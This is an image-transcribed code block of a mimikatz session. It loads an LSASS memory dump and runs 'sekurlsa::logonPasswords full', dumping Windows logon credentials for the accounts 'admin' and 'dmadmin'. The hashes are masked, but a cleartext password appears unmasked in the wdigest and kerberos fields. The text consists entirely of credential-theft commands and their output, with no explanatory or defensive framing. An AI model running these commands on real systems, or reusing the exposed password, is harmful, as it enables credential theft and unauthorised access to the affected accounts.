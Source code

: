       ```
      C:\Windows\Temp\test\x64>mimikatz.exe
      
        .#####.   mimikatz 2.1.1 (x64) built on May  2 2018 00:26:52
       .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
       ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
       ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
        '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
      
      mimikatz # sekurlsa::minidump lsass.dmp
      Switch to MINIDUMP : 'lsass.dmp'
      mimikatz # sekurlsa::logonPasswords full
      Opening : 'lsass.dmp' file for minidump...
      
      Authentication Id : 4 ; 484366552 (00000004:1cded8d8)
      Session           : RemoteInteractive from 4
      User Name         : admin
      Domain            : xx
      Logon Server      : WIN-VEG0FAB6OQS
      Logon Time        : 5/5/2018 11:49:44 AM
      SID               : S-1-5-21-970513389-3385549917-1141547890-1128
              msv :
               [00000003] Primary
               * Username : admin
               * Domain   : xx
               * NTLM     : xxxxxxxxxxxxxxxxxx
               * SHA1     : xxxxxxxxxxxxxxxxxxxxxx
               [00010000] CredentialKeys
               * NTLM     : xxxxxxxxxxxxxxxxxxxxxx
               * SHA1     : xxxxxxxxxxxxxxxxxx
              tspkg :
              wdigest :
               * Username : admin
               * Domain   : xx
               * Password : QWEad!@w123
              kerberos :
               * Username : admin
               * Domain   : xx
               * Password : QWEad!@w123
              ssp :
              credman :
      Authentication Id : 0 ; 2138016 (00000000:00209fa0)
      Session           : Service from 0
      User Name         : dmadmin
      Domain            : xx
      Logon Server      : WIN-VEG0FAB6OQS
      Logon Time        : 3/7/2018 3:23:17 PM
      SID               : S-1-5-21-970513389-3385549917-1141547890-1119
              msv :
               [00000003] Primary
               * Username : dmadmin
               * Domain   : xx
               * NTLM     : xxxxxxxxxxxxx
               * SHA1     : xxxxxxxxxxxx
               [00010000] CredentialKeys
               * NTLM     : xxxxxxxxxxxxxxxxxxxxx
               * SHA1     : xxxxxxxxxxxxxxxxxx
              tspkg :
              wdigest :
               * Username : dmadmin
               * Domain   : xx